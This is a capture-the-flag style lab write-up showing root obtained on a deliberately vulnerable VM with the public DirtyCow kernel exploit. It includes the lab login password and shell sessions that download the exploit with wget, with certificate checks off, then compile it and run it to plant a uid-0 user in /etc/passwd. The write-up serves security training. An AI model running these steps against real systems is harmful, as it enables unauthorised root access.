

# Writeup 2 - Vulnerabilidad DirtyCow

## Index:

- [What is DirtyCow?](#what-is-dirtycow)
- [1. We verified that the kernel is vulnerable.](#1-we-verified-that-the-kernel-is-vulnerable)
- [2. GCC Search](#2-gcc-search)
- [3. Obtaining the exploit](#3-obtaining-the-exploit)
- [4. Download and install DirtyCow](#4-download-and-install-dirtycow)
- [5. We execute the Exploit](#5-we-execute-the-exploit)
- [6. We restored](#6-we-restored)

## What is DirtyCow?

**DirtyCow (CVE-2016-5195)** is a Linux kernel vulnerability discovered in 2016. Its name comes from *"Dirty Copy-On-Write."*

It's a bug in the mechanism the kernel uses to manage memory when multiple processes access the same resource.

This means it allows an **unprivileged user** to write to read-only memory areas, including system files like **/etc/passwd**, and potentially escalate privileges to root.

The VM is running an older kernel from 2015, therefore it is vulnerable.

## Exploitation

## 1. We verified that the kernel is vulnerable.

We connect via ssh as the user `Laurie` and check if the kernel is vulnerable:

- password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

```bash
ssh laurie@192.168.0.30
ssh: connect to host 192.168.0.30 port 22: No route to host
davgalle@davgalle-Latitude-5400:~/Documents/RNCP7/boot2root$ ssh laurie@192.168.0.35
The authenticity of host '192.168.0.35 (192.168.0.35)' can't be established.
ECDSA key fingerprint is SHA256:d5T03f+nYmKY3NWZAinFBqIMEK1U0if222A1JeR8lYE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:215: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.35' (ECDSA) to the list of known hosts.
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.0.35's password: 
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
laurie@BornToSecHackMe:~$ 
```

**kernel 3.2.0-91** from 2015. It is undoubtedly vulnerable to DirtyCow.

## 2. GCC Search

Now let's see if `gcc` is available on the VM:
```bash
laurie@BornToSecHackMe:~$ which gcc
/usr/bin/gcc
laurie@BornToSecHackMe:~$ gcc --version
gcc (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
Copyright (C) 2011 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

laurie@BornToSecHackMe:~$ 
```

**gcc available** -> version `gcc (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3`

Therefore, we already have everything we need.

## 3. Obtaining the exploit

**DirtyCow** has several publicly available exploits. The most common one for privilege escalation directly modifies `/etc/passwd` to add a new user with uid=0.

We searched the internet for the exploit `dirty.c`. The key search term is:
```text
dirtycow exploit dirty.c github
```



**GitHub repo link: https://github.com/firefart/dirtycow/blob/master/dirty.c**

This exploit we've found is the most well-known and documented DirtyCow exploit. It's the `firefart` exploit, and it's perfect for this case because:

- It modifies `/etc/passwd` to create a user named `toor` with `uid=0`
- It automatically backs up to `/tmp/passwd.bak`
- It compiles with a single command
- It's reversible. We can restore `/etc/passwd` afterward.

Once we've found it, we need to transfer it to the VM. To do this, we check if we have `wget` or `curl` available to download it directly:

```bash
laurie@BornToSecHackMe:~$ which wget
/usr/bin/wget
laurie@BornToSecHackMe:~$ which curl
/usr/bin/curl
laurie@BornToSecHackMe:~$ 
```

## 4. Download and install DirtyCow

Now we download it directly to the VM:
```text
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
```

```bash
laurie@BornToSecHackMe:~$ wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
--2026-04-27 19:06:06--  https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
WARNING: cannot verify raw.githubusercontent.com's certificate, issued by `/C=US/O=Let\'s Encrypt/CN=R12':
  Unable to locally verify the issuer's authority.
HTTP request sent, awaiting response... 200 OK
Length: 4795 (4.7K) [text/plain]
Saving to: `/tmp/dirty.c'

100%[====================================================================================================================================================>] 4,795       --.-K/s   in 0s      

2026-04-27 19:06:07 (22.3 MB/s) - `/tmp/dirty.c' saved [4795/4795]
```

Once downloaded, we compile it.
```bash
gcc -pthread /tmp/dirty.c -o /tmp/dirty -lcrypt
```

## 5. We execute the Exploit

Next, we run it with a new password.
```bash
/tmp/dirty toor
```

We wait for it to finish. This operation usually takes several minutes depending on the system load.
```bash
laurie@BornToSecHackMe:~$ /tmp/dirty toor
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: toor
Complete line:
toor:to5bce5sr7eK6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'toor' and the password 'toor'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ 
```

Once it's finished, we check if we've been successful and escalate privileges:

- Username: toor
- Password: toor
```bash
laurie@BornToSecHackMe:~$ su toor
Password: 
toor@BornToSecHackMe:/home/laurie# whoami
toor
toor@BornToSecHackMe:/home/laurie# id
uid=0(toor) gid=0(root) groups=0(root)
toor@BornToSecHackMe:/home/laurie# 
```
## **ROOT obtained with DirtyCow. uid=0 (root privileges).**

## 6. We restored

Now restore /etc/passwd as described in the exploit:
```bash
toor@BornToSecHackMe:/home/laurie# mv /tmp/passwd.bak /etc/passwd
toor@BornToSecHackMe:/home/laurie# 
```

And `/etc/passwd` is restored and we verify that this is the case:
```bash
toor@BornToSecHackMe:/home/laurie# cat /etc/passwd | grep toor
toor@BornToSecHackMe:/home/laurie# 
```
We see that only the original lines appear.
```bash
toor@BornToSecHackMe:/home/laurie# grep root /etc/passwd
root:x:0:0:root:/root:/bin/bash
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
```

If we now try to do `su toor` again in a new session, it will no longer work.